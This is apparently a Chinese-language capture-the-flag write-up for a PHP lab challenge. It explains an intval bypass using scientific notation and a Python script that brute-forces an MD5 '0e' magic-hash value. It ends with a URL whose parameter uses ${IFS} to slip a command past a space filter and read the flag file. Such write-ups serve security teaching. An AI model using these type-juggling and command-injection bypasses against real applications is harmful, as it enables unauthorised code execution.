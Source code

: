 首先是 intval 的绕过, 这次的绕过有点意思

因为 intval 对科学计数法会截断处理, 例如 `123e456` 会变成 123 (PHP 5)

但是运算的时候, 科学计数法会先转换为数字参与运算, 之后再被 intval

```php
intval('123e1'); // 123
intval('123e1' + 1); // 1230 + 1 = 1231
intval('123e4' + 1); // 1230000 + 1 = 1230001
```

传入 `num=2019e1` 就能绕过了

然后是 md5 的碰撞, 一开始还以为是要找一个两次加密都是 0e 开头的值, 后来才发现并不是那么简单, 0e 后面必须全是数字才行

```python
from hashlib import md5

i = 0

while True:
    a = '0e' + str(i)
    m = md5(a.encode()).hexdigest()
    print(i)
    if m[:2] == '0e' and m[2:].isdigit():
        print('OK!!!!!!!!!1',a)
        break
    i += 1
```

耗时比较长, 出来的结果是 `0e215962017`

最后命令执行的绕过就很简单了

```
http://178bbba8-cd71-4046-b787-e861e97280ac.node4.buuoj.cn:81/fl4g.php?num=2019e1&md5=0e215962017&get_flag=tac${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
